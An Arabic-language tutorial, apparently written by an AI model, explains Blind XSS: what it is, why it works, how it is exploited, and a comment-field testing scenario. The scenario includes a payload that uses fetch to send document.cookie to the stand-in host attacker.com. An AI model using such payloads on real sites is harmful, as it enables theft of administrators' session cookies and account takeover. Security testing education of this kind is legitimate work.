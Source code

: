 بناءً على طلبك لشرح **الحقن المستخدمة في Blind XSS (Blind XSS Payloads)** باستخدام نفس طريقة الشرح المقدمة (التي تتضمن أقسامًا مثل "ما المقصود؟"، "لماذا يعمل؟"، "كيف يتم الاستغلال؟"، والخطوات العملية)، سأقدم شرحًا مفصلاً ومنظمًا لهذه الخطوة في اختبار ثغرات Cross-Site Scripting (XSS). سأغطي جميع المحاولات الممكنة لاستغلال ثغرة Blind XSS، مع التركيز على حقن JavaScript التي تُنفذ في سياقات غير مرئية (مثل لوحات إدارة الموقع أو صفحات المشرفين) وتُرسل نتائج التنفيذ إلى خادم خارجي. سيتم تقسيم المحاولات إلى فئات (مثل حقن لتأكيد التنفيذ، استخراج البيانات، وتتبع التفاعلات). سيتم تضمين المحتوى في علامة `<xaiArtifact>` كما هو مطلوب، مع معرف جديد لأن هذا طلب مستقل يركز على خطوة محددة. سأحافظ على الشرح باللغة العربية بأسلوب واضح ومنظم، متجنبًا تنسيق Markdown خارج العلامة بناءً على طلبك السابق.

---

## فهم الخطوة: الحقن المستخدمة في Blind XSS (Blind XSS Payloads)

### ما المقصود؟
الحقن المستخدمة في **Blind XSS** هي شيفرات JavaScript تُستخدم لاستغلال ثغرات Cross-Site Scripting في سياقات غير مرئية للمهاجم، مثل لوحات الإدارة، صفحات المشرفين، أو أنظمة معالجة البيانات الداخلية (مثل سجلات التعليقات أو تقارير المستخدم). على عكس XSS المنعكس أو المخزن التقليدي، لا يرى المهاجم نتيجة التنفيذ مباشرة (مثل ظهور تنبيه في المتصفح)، بل يعتمد على إرسال بيانات التنفيذ (مثل ملفات تعريف الارتباط، محتوى الصفحة، أو معلومات النطاق) إلى خادم خارجي يتحكم فيه المهاجم. تُصمم هذه الحقن لتكون مخفية وفعالة في بيئات لا يمكن للمهاجم مراقبتها مباشرة.

### لماذا يعمل؟
- **تنفيذ في سياقات داخلية**: تُنفذ الحقن في صفحات يصل إليها المشرفون أو الأنظمة الداخلية (مثل لوحة تحكم المشرف عند مراجعة تعليق)، مما يسمح بالوصول إلى بيانات حساسة.
- **إرسال البيانات عن بُعد**: يمكن لـ JavaScript إرسال البيانات إلى خادم خارجي عبر طلبات HTTP (مثل `fetch`، `Image.src`) أو WebSocket، مما يتيح للمهاجم تلقي النتائج دون رؤية التنفيذ.
- **ضعف التنظيف**: العديد من التطبيقات لا تُنظف الإدخالات بشكل كافٍ في السياقات الداخلية، خاصة إذا كانت تُعالج بيانات المستخدم (مثل التعليقات أو النماذج).
- **وصول JavaScript إلى DOM**: يتيح JavaScript الوصول إلى بيانات الصفحة (مثل `document.cookie`، `document.body.innerHTML`) وإرسالها خارجيًا.
- **صعوبة الكشف**: بما أن التنفيذ يحدث في سياقات غير مرئية، قد لا يلاحظ المشرفون أو الأنظمة الهجوم إلا بعد فوات الأوان.

### كيف يتم الاستغلال؟
- يتم إدخال شيفرة JavaScript في نقطة إدخال عرضة لـ XSS (مثل حقل تعليق، نموذج تقرير، أو معلمة URL) التي تُعالج لاحقًا في سياق داخلي (مثل لوحة إدارة).
- تُصمم الحقنة لتُنفذ عندما يتم الوصول إلى البيانات بواسطة المشرف أو النظام، وتجمع بيانات حساسة (مثل ملفات تعريف الارتباط، محتوى الصفحة، أو النطاق).
- تُرسل البيانات إلى خادم خارجي يتحكم فيه المهاجم باستخدام طلبات HTTP، صور، أو قنوات اتصال أخرى.
- يتم مراقبة الخادم الخارجي لتأكيد التنفيذ:
  - **نجاح (True)**: البيانات (مثل ملفات تعريف الارتباط أو النطاق) تظهر في سجلات الخادم.
  - **فشل (False)**: لا تصل بيانات، أو يتم حظر الحقنة (مثل بسبب فلاتر أو CSP).
- تُكيَّف الحقن لتكون مخفية (مثل تجنب التنبيهات أو التغييرات البصرية) ولتجاوز القيود مثل فلاتر الإدخال.

### السناريو
لنفترض أنك تختبر موقعًا إلكترونيًا يحتوي على حقل تعليق يسمح بإدخال نصوص. لاحظت أن التعليقات تُعرض في لوحة إدارة المشرفين، وتشك أن الحقل عرضة لـ XSS. حاولت إدخال حقنة مثل `<script>alert('XSS')</script>`، لكنك لم ترَ نتيجة مباشرة لأن التنفيذ يحدث في لوحة الإدارة. الآن، تريد استخدام حقنة Blind XSS مثل `<script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>` في حقل التعليق. إذا تلقى خادمك بيانات (مثل ملفات تعريف الارتباط) عندما يراجع المشرف التعليق، فهذا يؤكد وجود ثغرة Blind XSS.

---
